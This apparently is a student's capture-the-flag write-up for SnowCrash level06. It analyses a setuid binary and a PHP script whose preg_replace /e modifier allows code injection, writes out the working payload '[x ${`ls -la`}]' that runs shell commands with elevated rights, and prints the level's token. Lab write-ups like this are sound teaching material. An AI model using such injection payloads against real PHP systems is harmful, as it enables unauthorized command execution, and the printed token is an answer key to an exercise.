


# level06
_The ritual_ :
- `pwd`: `/home/user/level06`
- `id`: `uid=2006(level06) gid=2006(level06) groups=2006(level06),100(users)`
- `ls -la`:
```sh
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```
- `find / -user flag06 2> /dev/null`: nothing

## _A BINARY FILE, LET'S RUN IT NOW_
```sh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$
```

- As we can see, there is 2 file : a binary file write in `C`, we know that cause we can see the file execute functions in the `GLIBC_2.0` (it's more visible with the command `strings`). And the second file is `php` script.

_Before start understanding the `php` script, I REALLY want to decompile the binary. Let's transfer the file and laucnh `ghidra`._
```sh
➜  ~ scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 /Users/mayoub/Desktop
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::a925:a9be:251b:ed3f fec0::5054:ff:fe12:3456
level06@127.0.0.1's password:
level06                                                                                                                                                                   100% 7503   383.2KB/s   00:00
➜  ~
```

- And here's the decompiled file :



- Hum, this program do useless things (_**NORMINETTE IS TRIGGERED**_), but the condition `if (*(int *)(iVar1 + x) != 0)` is a way to check `argv`.
`iVar1` is a pointer to the `argv` tab, and every elements of the tab are spaced 4 bytes apart : it check if `argv[1]` isn't `NULL`.
- For the rest, the program executes only the `php` script with the arguments we passed to.

## Let's move on the `php` script
- There's **0 (ZERO)** indentations in this file so let's clean it :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);

	$a = preg_replace(
		"/(\[x (.*)\])/e",
		"y(\"\\2\")",
		$a
	);

	$a = preg_replace(
		"/\[/",
		"(",
		$a
	);

	$a = preg_replace(
		"/\]/",
		")",
		$a
	);

	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

- **Firstly**, the script use `regex` : it's a powerful tool for manipulate strings according to specific patterns (it's awful).

- `function y($m)` : it replace all dots `.` by the strings `" x "` (`space` - `x` - `space`) and all at `@` by the string `" y"` (`space` - `y`) of the parameter `m`.

- `function x($y, $z)` :
1) The value of `a` becomes the contents of the file.
2) The pattern `(\[x (.*)\])` say "All string becomming by `[x ` followed by everything `(.*)` will be replaced by the result of the function `y` with `\\2` as argument"
3) `\\2` corresponds to the second capture group. The first is `(\[x (.*)\])` (first parentheses), the second is `(.*)` (second parentheses). The function `y` take as arguments `(.*)`, everythings between `[x ` and `]`.
4) The function `y` take `(.*)` as argument and replace all `.` by `" x "` and all `@` by `" y"` in the string who are represented by `(.*)` (with other words : <u>everythings</u>).
5) `a` take the return value of the function `preg_replace` with the parameters we have seen previously by taking `a` itself as third parameter, the string that will be processed.
6) `a` take the return of the same function but replacing all `[` by `(`.
7) Same but all `]` are repblaced by `)`, and finally `a` is returned.

**And the rest of the script :**
-  `r` take the return value of `x($argv[1], $argv[2])` : <u>`argv[1]` and `argv[2]` are the arguments we passed to the C program</u>.
-  `r` is printed.

## What we can notice
- The modifier `/e` at the end of this pattern `/(\[x (.*)\])/e`. This modifier is deprecated, means that whatever is parsed is transformed into `php` code.

- The parameter `z` in the prototype of the function `x` is useless.

_Let's test all this mess..._
```sh
level06@SnowCrash:~$ echo '[x ls -la]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
ls -la
level06@SnowCrash:~$
```
_It doesn't works..._

## Why it doesn't works ?

- The `php` allows to execute shells commands if a group is surrounded by 2 backticks `` ` `` (the `execution operator`) and scopes `{}` ([Complex (curly) synthax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)).

_Let's try again !_
```sh
level06@SnowCrash:~$ echo '[x ${`ls -la`}]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```
_The script crashed, but we can see the output of the command..._
The output here is taked as a variable, but this variable is not define in the code.

[This site](https://regex101.com/) is very useful for testing `regex` patterns and see what they take in a string, it helped a lot for understand how `regex` works :



**We can conclude we can passed a command to executing thanks to `(.*)` if the first argument is a string starts with `[x ` and ends with `]` because it will be treated as `php` code. If these conditions are checked, we can execute a `shell` command.**

_Go checked all thes conditions._
```sh
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```

# FINALLY
**_This level was VERY AWFUL I HATE `PHP` AND `REGEX`_**

- Let's login to `level06` directly :
```sh
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$
```
# level06 complet !
